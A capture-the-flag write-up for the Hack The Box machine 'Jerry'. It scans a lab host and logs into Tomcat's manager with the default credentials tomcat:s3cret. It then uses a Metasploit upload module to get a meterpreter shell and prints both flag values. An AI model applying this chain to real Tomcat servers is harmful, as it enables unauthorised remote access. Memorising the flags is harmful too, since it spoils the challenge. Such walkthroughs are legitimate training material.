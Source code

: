 # Jerry
------------
*Windows* - It's realistic as Apache Tomcat often is found exposed and configured with common or weak credentials.

--------------

## Task 1

Which TCP port is open on the remote host?

## Solution 1

Starting the `nmap` scan such as:

```sh
nmap -sC -T4 10.10.10.95
```

doesn't work, with the note `Host seems down. If it is really up, but blocking our ping probes, try -Pn`.

So let's try with the option to block ping probes:

```sh
nmap -sC -Pn -T4 10.10.10.95
```

This provides with the results:

```sh
PORT     STATE SERVICE
8080/tcp open  http-proxy
|_http-title: Apache Tomcat/7.0.88
|_http-favicon: Apache Tomcat
```

So the answer is `8080`.

----------

## Task 2

Which web server is running on the remote host? Looking for two words.

## Solution 2

From the results above we see that the web server running on the host is `Apache Tomcat`.

---------

## Task 3

Which relative path on the webserver leads to the Web Application Manager?

## Solution 3

On the main page of the webpage there is a link `manager webapp`, which goes to the link `/manager/html`.

----------

## Task 4

What is the valid username and password combination for authenticating into the Tomcat Web Application Manager? Give the answer in the format of username:password

## Solution 4

I tried some credentials such as `admin:admin` and I got a `403 Access Denied`, which showed also a page, which tells the default credentials:

```sh
If you have not changed any configuration files, please examine the file conf/tomcat-users.xml in your installation. That file must contain the credentials to let you use this webapp.

For example, to add the manager-gui role to a user named tomcat with a password of s3cret, add the following to the config file listed above.
```


---------------

## Task 5

Which file type can be uploaded and deployed on the server using the Tomcat Web Application Manager?

## Solution 5

On the page where I got access with the credentials there is a section `Deploy` and there is also a subsection to upload `.war` files.

----------

## Task 6

Submit the flag located on the user's desktop.

## Solution 6

Let's try to exploit it using the `tomcat_jsp_upload_bypass` on `Metasploit`.

Edit the following options:
- HttpPassword - `s3cret`.
- HttpUsername - `tomcat`.
- RHOSTS - Ip of the machine.
- RPORT - Port of the machine.
- LHOST - IP address of our machine.

And then run `exploit`.

This gives us `meterpreter`. Navigate to `C:\Users\Administrator\Desktop` and you have a folder `flags`.

Inside there is a file names `2 for the price of 1.txt`.

`cat` to it to read the content, which is `7004dbcef0f854e0fb401875f26ebd00`.

-----------

## Task 7

Submit the flag located on the administrator's desktop.

## Solution 7

When we read the file on the `Task 6` the result was:

```sh
meterpreter > cat 2\ for\ the\ price\ of\ 1.txt 
user.txt
7004dbcef0f854e0fb401875f26ebd00

root.txt
04a8b36e1545a455393d067e772fe90e
```

The final flag, is the content of the `root.txt`.
